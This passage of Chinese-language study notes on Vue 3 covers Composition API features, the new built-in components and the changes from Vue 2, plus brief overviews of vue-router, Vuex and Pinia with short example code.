- watchEffect有点像computed：

  - 但computed注重的计算出来的值（回调函数的返回值），所以必须要写返回值。
  - 而watchEffect更注重的是过程（回调函数的函数体），所以不用写返回值。

  ```js
  //watchEffect所指定的回调中用到的数据只要发生变化，则直接重新执行回调。
  watchEffect(()=>{
      const x1 = sum.value
      const x2 = person.age
      console.log('watchEffect配置的回调执行了')
  })
  ```

## 8.生命周期


- Vue3.0中可以继续使用Vue2.x中的生命周期钩子，但有有两个被更名：
  - ``beforeDestroy``改名为 ``beforeUnmount``
  - ``destroyed``改名为 ``unmounted``
- Vue3.0也提供了 Composition API 形式的生命周期钩子，与Vue2.x中钩子对应关系如下：
  - `beforeCreate`=>`setup()`
  - `created`=>`setup()`
  - `beforeMount` >`onBeforeMount`
  - `mounted`=>`onMounted`
  - `beforeUpdate`>`onBeforeUpdate`
  - `updated` =>`onUpdated`
  - `beforeUnmount` ==>`onBeforeUnmount`
  - `unmounted` ==>`onUnmounted`

## 9.自定义hook函数

- 什么是hook？—— 本质是一个函数，把setup函数中使用的Composition API（数据、方法、生命周期钩子...）进行了封装。
- 类似于vue2.x中的mixin。
- 自定义hook的优势: 复用代码, 让setup中的逻辑更清楚易懂。

## 10.toRef

- 作用：创建一个 ref 对象，其value值指向另一个对象中的某个属性。
- 语法：``const name = toRef(person,'name')``
- 应用:   要将响应式对象中的某个属性单独提供给外部使用时。
- 扩展：``toRefs`` 与 ``toRef``功能一致，但可以批量创建多个 ref 对象，语法：``toRefs(person)``

# 三、其它 Composition API

## 1.shallowReactive 与 shallowRef

- shallowReactive：只处理对象最外层属性的响应式（浅响应式）。
- shallowRef：只处理基本数据类型的响应式, 不进行对象的响应式处理。
- 什么时候使用?

  - 如果有一个对象数据，结构比较深, 但变化时只是外层属性变化 > shallowReactive。
  - 如果有一个对象数据，后续功能不会修改该对象中的属性，而是生新的对象来替换 > shallowRef。

## 2.readonly 与 shallowReadonly

- readonly: 让一个响应式数据变为只读的（深只读）。
- shallowReadonly：让一个响应式数据变为只读的（浅只读）。
- 应用场景: 不希望数据被修改时。

## 3.toRaw 与 markRaw

- toRaw：
  - 作用：将一个由 ``reactive``生成的`<strong style="color:orange">`响应式对象``转为`<strong style="color:orange">`普通对象``。
  - 使用场景：用于读取响应式对象对应的普通对象，对这个普通对象的所有操作，不会引起页面更新。
- markRaw：
  - 作用：标记一个对象，使其永远不会再成为响应式对象。
  - 应用场景:
    1. 有些值不应被设置为响应式的，例如复杂的第三方类库等。
    2. 当渲染具有不可变数据源的大列表时，跳过响应式转换可以提高性能。

## 4.customRef

- 作用：创建一个自定义的 ref，并对其依赖项跟踪和更新触发进行显式控制。
- 实现防抖效果：

  ```vue
  <template>
  	<input type="text" v-model="keyword">
  	<h3>{{keyword}}</h3>
  </template>
  
  <script>
  	import {ref,customRef} from 'vue'
  	export default {
  		name:'Demo',
  		setup(){
  			// let keyword = ref('hello') //使用Vue准备好的内置ref
  			//自定义一个myRef
  			function myRef(value,delay){
  				let timer
  				//通过customRef去实现自定义
  				return customRef((track,trigger)=>{
  					return{
  						get(){
  							track() //告诉Vue这个value值是需要被“追踪”的
  							return value
  						},
  						set(newValue){
  							clearTimeout(timer)
  							timer = setTimeout(()=>{
  								value = newValue
  								trigger() //告诉Vue去更新界面
  							},delay)
  						}
  					}
  				})
  			}
  			let keyword = myRef('hello',500) //使用程序员自定义的ref
  			return {
  				keyword
  			}
  		}
  	}
  </script>
  ```

## 5.provide 与 inject


- 作用：实现``祖与后代组件间``通信
- 套路：父组件有一个 `provide` 选项来提供数据，后代组件有一个 `inject` 选项来开始使用这些数据
- 具体写法：

  1. 祖组件中：

     ```js
     setup(){
     	......
         let car = reactive({name:'奔驰',price:'40万'})
         provide('car',car)
         ......
     }
     ```
  2. 后代组件中：

     ```js
     setup(props,context){
     	......
         const car = inject('car')
         return {car}
     	......
     }
     ```

## 6.响应式数据的判断

- isRef: 检查一个值是否为一个 ref 对象
- isReactive: 检查一个对象是否是由 `reactive` 创建的响应式代理
- isReadonly: 检查一个对象是否是由 `readonly` 创建的只读代理
- isProxy: 检查一个对象是否是由 `reactive` 或者 `readonly` 方法创建的代理

# 四、Composition API 的优势

## 1.Options API 存在的问题

使用传统OptionsAPI中，新增或者修改一个需求，就需要分别在data，methods，computed里修改 。

<div style="width:600px;height:370px;overflow:hidden;float:left">
    
</div>
<div style="width:300px;height:370px;overflow:hidden;float:left">
     
</div>


## 2.Composition API 的优势

我们可以更加优雅的组织我们的代码，函数。让相关功能的代码更加有序的组织在一起。

<div style="width:500px;height:340px;overflow:hidden;float:left">
    
</div>
<div style="width:430px;height:340px;overflow:hidden;float:left">
    
</div>


# 五、新的组件

## 1.Fragment

- 在Vue2中: 组件必须有一个根标签
- 在Vue3中: 组件可以没有根标签, 内部会将多个标签包含在一个Fragment虚拟元素中
- 好处: 减少标签层级, 减小内存占用

## 2.Teleport

- 什么是Teleport？—— `Teleport` 是一种能够将我们的``组件html结构``移动到指定位置的技术。

  ```vue
  <teleport to="移动位置">
  	<div v-if="isShow" class="mask">
  		<div class="dialog">
  			<h3>我是一个弹窗</h3>
  			<button @click="isShow = false">关闭弹窗</button>
  		</div>
  	</div>
  </teleport>
  ```

## 3.Suspense

- 等待异步组件时渲染一些额外内容，让应用有更好的用户体验
- 使用步骤：

  - 异步引入组件

    ```js
    import {defineAsyncComponent} from 'vue'
    const Child = defineAsyncComponent(()=>import('./components/Child.vue'))
    ```
  - 使用 ``Suspense``包裹组件，并配置好 ``default`` 与 ``fallback``

    ```vue
    <template>
    	<div class="app">
    		<h3>我是App组件</h3>
    		<Suspense>
    			<template v-slot:default>
    				<Child/>
    			</template>
    			<template v-slot:fallback>
    				<h3>加载中.....</h3>
    			</template>
    		</Suspense>
    	</div>
    </template>
    ```

# 六、其他

## 1.全局API的转移

- Vue 2.x 有许多全局 API 和配置。

  - 例如：注册全局组件、注册全局指令等。

    ```js
    //注册全局组件
    Vue.component('MyButton', {
      data: () => ({
        count: 0
      }),
      template: '<button @click="count++">Clicked {{ count }} times.</button>'
    })
    
    //注册全局指令
    Vue.directive('focus', {
      inserted: el => el.focus()
    }
    ```
- Vue3.0中对这些API做出了调整：

  - 将全局的API，即：``Vue.xxx``调整到应用实例（``app``）上
    | 2.x 全局 API（``Vue``）  | 3.x 实例 API (`app`)        |
    | ------------------------ | --------------------------- |
    | Vue.config.xxxx          | app.config.xxxx             |
    | Vue.config.productionTip | ``移除``                    |
    | Vue.component            | app.component               |
    | Vue.directive            | app.directive               |
    | Vue.mixin                | app.mixin                   |
    | Vue.use                  | app.use                     |
    | Vue.prototype            | app.config.globalProperties |

## 2.其他改变

- data选项应始终被声明为一个函数。
- 过度类名的更改：

  - Vue2.x写法

    ```css
    .v-enter,
    .v-leave-to {
      opacity: 0;
    }
    .v-leave,
    .v-enter-to {
      opacity: 1;
    }
    ```
  - Vue3.x写法

    ```css
    .v-enter-from,
    .v-leave-to {
      opacity: 0;
    }
    
    .v-leave-from,
    .v-enter-to {
      opacity: 1;
    }
    ```
- 移除keyCode作为 v-on 的修饰符，同时也不再支持 ``config.keyCodes``
- 移除`v-on.native`修饰符

  - 父组件中绑定事件

    ```vue
    <my-component
      v-on:close="handleComponentEvent"
      v-on:click="handleNativeClickEvent"
    />
    ```
  - 子组件中声明自定义事件

    ```vue
    <script>
      export default {
        emits: ['close']
      }
    </script>
    ```
- ``移除``过滤器（filter）

  > 过滤器虽然这看起来很方便，但它需要一个自定义语法，打破大括号内表达式是 “只是 JavaScript” 的假设，这不仅有学习成本，而且有实现成本！建议用方法调用或计算属性去替换过滤器。
  >

  

# vue-router


`router-link`与`a`标签类似，但不会刷新页面

通常使用router文件夹存放路由配置，views文件夹中存放页面。：

```js
// router/index.js
const routes = [
        { 
            path: '/', component: Home,
        },
        { 
            path: '/egg/:eggType', component: Eggs, // eggType是变量
        },
        {
            path: '/egg', redirect: '/egg/chicken-egg' // 重定向
        }
]

const router = createRouter({
    history: createWebHistory(), // 历史模式
    routes: routes
})

export default router
```


获取route中的内容：

```js
const route = useRoute();
console.log(route.params)
```

router展示页面：

```html
// App.vue
<template>
  <nav>
   <!-- 链接 -->
    <router-link to="/">Home</router-link>
    <br />
    <router-link
      v-for="dataEgg in dataEggs"
      :key="dataEgg.id"
      :to="`/egg/${dataEgg.type}`">
      {{ dataEgg.name }}
    </router-link>
  </nav>
   <!-- 页面内容 -->
  <router-view></router-view> 
</template>
```


# Vuex

> 用于管理公共数据


`new Vuex.store({配置})`：创建Vuex.store实例

 

**state**：统一定义公共数据（类似于data(){return {a:1, b:2，xxxxxx}}）

**mutations**：使用它来修改数据(类似于methods)。mutation 非常类似于事件：每个 mutation 都有一个 事件类型 (type) 和 对应的回调函数 (handler)。

**getter**：类似于computed(计算属性，对现有的状态进行计算得到新的数据）

**actions**：支持异步请求。进行异步操作，并通过commit mutation来修改state。

**modules**：多模块。公共数据较多时可以拆分成模块。


获取公共数据：在任意组件中，通过`this.$store.state` 来获取公共数据。

修改公共数据：`this.$store.commit('mutation的名字', 参数)`

调用action：`this.$store.dispatch('actions的名字', 参数)`


# pinia

vuex的替代者。

使用createPinia()创建一个pinia实例。

使用defineStore创建一个store实例：

```js
import { defineStore } from 'pinia'
export const useMainStore = defineStore('main', {
 state: () => {
   return {
     count: 10
   }
 },
 getters: {
   // getters 类似于组件中的 computed 属性
 },
 actions: {
   // actions 类似于组件中的 methods
 }
})
```


pinia自动将组合式函数识别为状态管理的内容：

- ref ==> get
- function ==> action
- 没有mutation

```js
// 可以使用一个函数 (与组件 setup() 类似) 来定义一个 Store：
export const useCounterStore = defineStore('counter', () => {
  const count = ref(0)
  function increment() {
    count.value++
  }

  return { count, increment }
})
```

